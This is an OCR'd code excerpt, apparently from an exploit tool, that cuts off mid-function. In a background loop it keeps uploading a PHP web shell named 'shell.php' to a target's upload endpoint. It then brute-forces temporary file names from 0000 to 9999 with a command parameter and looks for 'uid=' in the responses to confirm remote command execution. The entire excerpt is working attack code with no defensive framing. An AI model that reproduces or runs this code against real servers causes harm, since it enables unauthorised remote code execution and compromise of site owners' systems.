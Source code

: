 ```python

    def start_upload_loop(self) -> None:
        if self.upload_thread and self.upload_thread.is_alive():
            logger.debug("Upload thread already running")
            return
        self.upload_thread = threading.Thread(
            target=self._upload_loop,
            args=(self.session, self.upload_url, self.config.php, self.config.upload_interval, self.stop_evt, self.config.field_name),
            daemon=True,
            name="UploadThread",
        )
        self.upload_thread.start()
        logger.info("Upload loop started")

    def _upload_loop(self, session: requests.Session, upload_url: str, php_code: str,
                     interval: float, stop_evt: threading.Event, field_name: str = "file") -> None:
        files = {field_name: ("shell.php", php_code.encode("utf-8"), "application/x-php")}
        i = 0
        while not stop_evt.is_set():
            try:
                r = session.post(upload_url, files=files, allow_redirects=True)
                if i % 25 == 0:
                    logger.debug(f"[upload] status={r.status_code}")
            except Exception as e:
                if i % 25 == 0:
                    logger.debug(f"[upload] error: {e}")
            i += 1
            if interval > 0:
                time.sleep(interval)

    def _probe_one(self, base: str, tmp_path: str, num: str, cmd: str) -> Optional[Tuple[str, int, Dict[str,str], str]]:
        url = f"{base.rstrip('/')}{tmp_path}/{num}.php?0={quote(cmd, safe='')}"
        try:
            r = self.session.get(url, allow_redirects=True)
            if r.status_code == 200 or "uid=" in r.text or "uid =" in r.text:
                headers = {k: v for k, v in r.headers.items() if k.lower() in ("content-type", "content-length", "server", "date")}
                return url, r.status_code, headers, r.text
        except Exception:
            pass
        return None

    def _generate_numbers(self) -> List[str]:
        return [f"{i:04d}" for i in range(10000)]

    def bruteforce(self, cmd: Optional[str] = None) -> Tuple[Optional[str], Optional[str]]:
        cmd = cmd or self.config.cmd
        numbers = self._generate_numbers()
        logger.info(f"Starting bruteforce on {self.base}{self.tmp_path}/[0000-9999].php")
        logger.info(f"Threads={self.config.threads}, timeout={self.config.timeout}s, upload_interval={self.config.upload_interval}s")
        while not self.stop_evt.is_set():
            random.shuffle(numbers)
            with ThreadPoolExecutor(max_workers=self.config.threads) as ex:
                futures = {ex.submit(self._probe_one, self.base, self.tmp_path, n, cmd): n for n in numbers}
                try:
                    for fut in as_completed(futures):
                        if self.stop_evt.is_set():
                            break
                        try:
```